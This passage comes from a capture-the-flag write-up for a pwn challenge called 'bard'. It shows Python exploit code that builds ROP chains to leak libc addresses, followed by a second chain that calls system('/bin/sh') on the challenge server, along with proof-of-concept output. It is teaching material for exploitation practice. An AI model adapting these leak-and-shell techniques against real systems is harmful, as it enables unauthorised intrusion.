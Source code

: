 ```python
rop.call(main, [])

r = bard('./bard')
r.create('g', 1, b'\n')
for i in range(8): r.create('e', 1, b'\n')
r.create('g', 1, rop.chain())
log.info('ROP chain sent.')
for i in range(10): r.combat('r')

r.interactive()
```
The PoC succeeds; the program jumps back to main after execution:
```
$ python3.8 poc.py
[*] '/path/to/bard'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bard'
[+] Starting local process './bard': pid 18825
[*] ROP chain sent.
[*] Switching to interactive mode
\x10\xcc\xde[\x7f
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
$ 
```
At the same time, the `ROP` chain we're using here allows us to leak the address of `libc` via a call to `puts(GOT['printf'])`. From here, we only need to call `system("/bin/sh")` to win.

### Server issues
It was easy enough to continue that PoC to make a full blown exploit:
```python
from pwnscripts import *
from sys import argv
if len(argv) > 1: LOCAL = True
else: LOCAL = False
if LOCAL: db = libc_db('./libc-database', binary='/lib/x86_64-linux-gnu/libc.so.6')
else: db = libc_db('./libc-database', binary='./libc-2.27.so')
context.binary = './bard'
...
if LOCAL: r = bard('./bard')
else: r = rbard('pwn.chal.csaw.io', 5019)
r.create('g', 1, b'\n')
...
for i in range(10): r.combat('r')

base = db.calc_base('putchar', extract_first_bytes(r.recvline(),6))
log.info('base: ' + hex(base))
rop = ROP(context.binary)
rop.call(db.symbols['system'] + base, [db.symbols['str_bin_sh'] + base])

r.create('g', 1, b'\n')
for i in range(8): r.create('e', 1, b'\n')
r.create('g', 1, rop.chain())
log.info('Second ROP chain sent.')
```